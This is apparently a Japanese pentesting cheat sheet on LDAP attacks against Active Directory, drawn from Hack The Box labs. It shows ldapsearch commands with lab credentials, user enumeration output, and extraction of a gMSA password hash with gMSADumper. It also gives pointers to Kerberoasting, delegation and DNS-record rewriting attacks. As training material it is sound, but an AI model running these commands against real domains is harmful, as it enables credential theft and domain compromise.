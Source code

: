 # Description
----



# Attack
----
## Basics
* ldapsearchでldapから情報を取得可能
* `ldapsearch -x -h intelligence.htb -s base`
* `ldapsearch -x -h intelligence.htb -b dc=intelligence,dc=htb`
* `ldapsearch -x -D ted.graves@intelligence.htb -w Mr.Teddy -h intelligence.htb  -b dc=intelligence,dc=htb`
  * userPrincipalNameではなく、dnでもユーザを指定可能
  * -D 'cn=ted graves,cn=users,dc=intelligence,dc=htb'

## User Enumeration
* ldapからユーザを列挙
* ldapsearch, windapsearch, GetADUsersが利用可能
  * windapsearchのUオプションでは、objectClass=userであるエントリをユーザと判定
  * **ただし、objectClassが設定されていないユーザは列挙から漏れる懸念がある**
  * `ldapsearch -x -h forest.htb -b 'dc=htb,dc=local' 'objectClass=user'`も同様
  * **GetADUsersは漏れなく列挙可能なため、GetADUsersの利用が望ましい**
  
* HTB: Forest

  ```console
  ┌─[rio@parrot]─[~/Htb/Forest]
  └──╼ $impacket-GetADUsers -dc-ip forest.htb -all htb.local/
  Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation
  
  [*] Querying forest.htb for information about domain.
  Name                  Email                           PasswordLastSet      LastLogon
  --------------------  ------------------------------  -------------------  -------------------
  Administrator         Administrator@htb.local         2019-09-19 02:09:08.342879  2019-10-07 19:57:07.299606
  Guest                                                 <never>              <never>
  DefaultAccount                                        <never>              <never>
  krbtgt                                                2019-09-18 19:53:23.467452  <never>
  $331000-VK4ADACQNUCA                                  <never>              <never>
  SM_2c8eef0a09b545acb  SystemMailbox{1f05a927-89c0-4725-adca-4527114196a1}@htb.local  <never>              <never>
  SM_ca8c2ed5bdab4dc9b  SystemMailbox{bb558c35-97f1-4cb9-8ff7-d53741dc928c}@htb.local  <never>              <never>
  SM_75a538d3025e4db9a  SystemMailbox{e0dc1c29-89c3-4034-b678-e6c29d823ed9}@htb.local  <never>              <never>
  SM_681f53d4942840e18  DiscoverySearchMailbox{D919BA05-46A6-415f-80AD-7E09334BB852}@htb.local  <never>              <never>
  SM_1b41c9286325456bb  Migration.8f3e7716-2011-43e4-96b1-aba62d229136@htb.local  <never>              <never>
  SM_9b69f1b9d2cc45549  FederatedEmail.4c1f4d8b-8179-4148-93bf-00a95fa1e042@htb.local  <never>              <never>
  SM_7c96b981967141ebb  SystemMailbox{D0E409A0-AF9B-4720-92FE-AAC869B0D201}@htb.local  <never>              <never>
  SM_c75ee099d0a64c91b  SystemMailbox{2CE34405-31BE-455D-89D7-A7C7DA7A0DAA}@htb.local  <never>              <never>
  SM_1ffab36a2f5f479cb  SystemMailbox{8cc370d3-822a-4ab8-a926-bb94bd0641a9}@htb.local  <never>              <never>
  HealthMailboxc3d7722  HealthMailboxc3d7722415ad41a5b19e3e00e165edbe@htb.local  2019-09-24 07:51:31.892097  2019-09-24 07:57:12.361516
  HealthMailboxfc9daad  HealthMailboxfc9daad117b84fe08b081886bd8a5a50@htb.local  2019-09-24 07:51:35.267114  2019-09-24 07:52:05.736012
  HealthMailboxc0a90c9  HealthMailboxc0a90c97d4994429b15003d6a518f3f5@htb.local  2019-09-19 20:56:35.206329  <never>
  HealthMailbox670628e  HealthMailbox670628ec4dd64321acfdf6e67db3a2d8@htb.local  2019-09-19 20:56:45.643993  <never>
  HealthMailbox968e74d  HealthMailbox968e74dd3edb414cb4018376e7dd95ba@htb.local  2019-09-19 20:56:56.143969  <never>
  HealthMailbox6ded678  HealthMailbox6ded67848a234577a1756e072081d01f@htb.local  2019-09-19 20:57:06.597012  <never>
  HealthMailbox83d6781  HealthMailbox83d6781be36b4bbf8893b03c2ee379ab@htb.local  2019-09-19 20:57:17.065809  <never>
  HealthMailboxfd87238  HealthMailboxfd87238e536e49e08738480d300e3772@htb.local  2019-09-19 20:57:27.487679  <never>
  HealthMailboxb01ac64  HealthMailboxb01ac647a64648d2a5fa21df27058a24@htb.local  2019-09-19 20:57:37.878559  <never>
  HealthMailbox7108a4e  HealthMailbox7108a4e350f84b32a7a90d8e718f78cf@htb.local  2019-09-19 20:57:48.253341  <never>
  HealthMailbox0659cc1  HealthMailbox0659cc188f4c4f9f978f6c2142c4181e@htb.local  2019-09-19 20:57:58.643994  <never>
  sebastien                                             2019-09-20 09:29:59.544725  2019-09-23 07:29:29.586227
  lucinda                                               2019-09-20 09:44:13.233891  <never>
  svc-alfresco                                          2021-07-14 17:33:39.955238  2019-09-23 20:09:47.931194
  andy                                                  2019-09-23 07:44:16.291082  <never>
  mark                                                  2019-09-21 07:57:30.243568  <never>
  santi                                                 2019-09-21 08:02:55.134828  <never>
  ```

## Group Managed Service Account
* `msDS-ManagedPassword`からパスワードハッシュを取得可能
* [gMSADumper](https://github.com/micahvandeusen/gMSADumper)を利用可能
* HTB: Intelligence

  ```console
  ┌─[rio@parrot]─[~/Htb/Intelligence]
  └──╼ $ldapsearch -x -D ted.graves@intelligence.htb -w Mr.Teddy -h intelligence.htb -b 'cn=svc_int,cn=managed service accounts,dc=intelligence,dc=htb'
  # extended LDIF
  #
  # LDAPv3
  # base <cn=svc_int,cn=managed service accounts,dc=intelligence,dc=htb> with scope subtree
  # filter: (objectclass=*)
  # requesting: ALL
  #
  
  # svc_int, Managed Service Accounts, intelligence.htb
  dn: CN=svc_int,CN=Managed Service Accounts,DC=intelligence,DC=htb
  objectClass: top
  objectClass: person
  objectClass: organizationalPerson
  objectClass: user
  objectClass: computer
  objectClass: msDS-GroupManagedServiceAccount
  cn: svc_int
  distinguishedName: CN=svc_int,CN=Managed Service Accounts,DC=intelligence,DC=h
   tb
  instanceType: 4
  whenCreated: 20210419004958.0Z
  whenChanged: 20210714121947.0Z
  uSNCreated: 12846
  uSNChanged: 110719
  name: svc_int
  objectGUID:: eaCA8SbzskmEoTSCQgjWQg==
  userAccountControl: 16781312
  badPwdCount: 0
  codePage: 0
  countryCode: 0
  badPasswordTime: 132707386923375218
  lastLogoff: 0
  lastLogon: 132707388154160469
  localPolicyFlags: 0
  pwdLastSet: 132694880879752841
  primaryGroupID: 515
  objectSid:: AQUAAAAAAAUVAAAARobx+nQXDcpGY+TMeAQAAA==
  accountExpires: 9223372036854775807
  logonCount: 3
  sAMAccountName: svc_int$
  sAMAccountType: 805306369
  dNSHostName: svc_int.intelligence.htb
  objectCategory: CN=ms-DS-Group-Managed-Service-Account,CN=Schema,CN=Configurat
   ion,DC=intelligence,DC=htb
  isCriticalSystemObject: FALSE
  dSCorePropagationData: 16010101000000.0Z
  lastLogonTimestamp: 132707387877640143
  msDS-AllowedToDelegateTo: WWW/dc.intelligence.htb
  msDS-SupportedEncryptionTypes: 28
  msDS-ManagedPasswordId:: AQAAAEtEU0sCAAAAZwEAAB0AAAAYAAAAWa6dT0SPVr+SpfQILta2E
   QAAAAAiAAAAIgAAAGkAbgB0AGUAbABsAGkAZwBlAG4AYwBlAC4AaAB0AGIAAABpAG4AdABlAGwAbA
   BpAGcAZQBuAGMAZQAuAGgAdABiAAAA
  msDS-ManagedPasswordPreviousId:: AQAAAEtEU0sCAAAAZwEAABsAAAAQAAAAWa6dT0SPVr+Sp
   fQILta2EQAAAAAiAAAAIgAAAGkAbgB0AGUAbABsAGkAZwBlAG4AYwBlAC4AaAB0AGIAAABpAG4AdA
   BlAGwAbABpAGcAZQBuAGMAZQAuAGgAdABiAAAA
  msDS-ManagedPasswordInterval: 30
  msDS-GroupMSAMembership:: AQAEgBQAAAAAAAAAAAAAACQAAAABAgAAAAAABSAAAAAgAgAABABQ
   AAIAAAAAACQA/wEPAAEFAAAAAAAFFQAAAEaG8fp0Fw3KRmPkzOgDAAAAACQA/wEPAAEFAAAAAAAFF
   QAAAEaG8fp0Fw3KRmPkzHYEAAA=
  
  # search result
  search: 2
  result: 0 Success
  
  # numResponses: 2
  # numEntries: 1
  ┌─[rio@parrot]─[~/Htb/Intelligence]
  └──╼ $python gMSADumper.py -d intelligence.htb -u ted.graves -p Mr.Teddy
  svc_int$:::d64b83fe606e6d3005e20ce0ee932fe2
  ```

## Service Principal Name
* servicePrincipalNameを有するユーザは脆弱である可能性がある
* 詳細はKerberos - Kerberostingを参照

## Delegation
* msDS-AllowedToDelegateTo、msDS-AllowedToActOnBehalfOfOtherIdentityが委任を示す
* 詳細はKerberos - Delegation Attackを参照

## Rewrite DNS Record
* ldapのエントリを書き換えることで、ldapを参照するDNSのエントリを書き換え可能
* HTB: Intelligence

